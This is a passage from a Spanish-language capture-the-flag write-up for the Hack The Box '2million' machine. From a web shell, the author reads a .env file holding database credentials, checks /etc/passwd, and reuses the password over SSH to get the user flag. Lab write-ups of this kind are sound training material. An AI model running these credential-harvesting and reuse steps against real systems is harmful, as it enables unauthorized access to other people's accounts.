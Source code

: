 ### Information Leakage

Enumerando el directorio actual donde nos encontramos, revisamos la existencia de un archivo `.env`, que suele ser de entornos virtuales y traer configuraciones.

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Feb 16 22:50 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Feb 16 22:50 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Al revisar el contenido del archivo `.env`, se logra obtener las credenciales del usuario `admin`. Revisamos el archivo `/etc/passwd` y verificamos que existe el usuario `admin` y además dispone de `bash`. Con lo cual, posiblemente sean las credenciales de dicho usuario.

```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

www-data@2million:~/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

Tratamos de acceder desde `SSH` con las credenciales del usuario `admin`, finalmente logramos el acceso correspondiente y podemos visualizar la flag de **user.txt**.

```bash
❯ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)


You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ cat user.txt 
a4b75c8****************************
```
